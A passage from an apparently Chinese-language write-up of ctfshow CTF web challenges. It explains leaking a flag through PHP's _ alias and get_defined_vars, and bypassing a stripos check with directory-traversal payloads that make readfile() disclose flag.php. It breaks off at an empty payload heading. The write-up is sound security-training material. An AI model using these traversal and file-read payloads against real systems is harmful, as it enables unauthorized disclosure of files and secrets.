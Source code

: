 ```php
<?php
echo gettext("phpinfo");
结果  phpinfo

echo _("phpinfo");
结果 phpinfo
```

所以 `call_user_func('_','phpinfo')` 返回的就是phpinfo

*get_defined_vars — 返回由所有已定义变量所组成的数组 这样可以获得 $flag*

因为我们要得到的flag就在flag.php中，所以可以直接用get_defined_vars

```php
get_defined_vars ( void ) : array
此函数返回一个包含所有已定义变量列表的多维数组，这些变量包括环境变量、服务器变量和用户定义的变量。
```



payload:

```php
?f1=_&f2=get_defined_vars
```

## web129~stripos包含特定绕过

```php
<?php

error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['f'])){
    $f = $_GET['f'];
    if(stripos($f, 'ctfshow')>0){
        echo readfile($f);
    }
} 
```

* stripos() 函数查找字符串在另一字符串中第一次出现的位置（不区分大小写）。

| 返回值：   | 返回字符串在另一字符串中第一次出现的位置，如果没有找到字符串则返回 FALSE。 |
| ---------- | ------------------------------------------------------------ |
| PHP 版本： | 5+                                                           |

目录穿越：

```php
?f=/ctfshow/../var/www/html/flag.php
?f=./ctfshow/../flag.php
```

还可以php伪协议

payload:
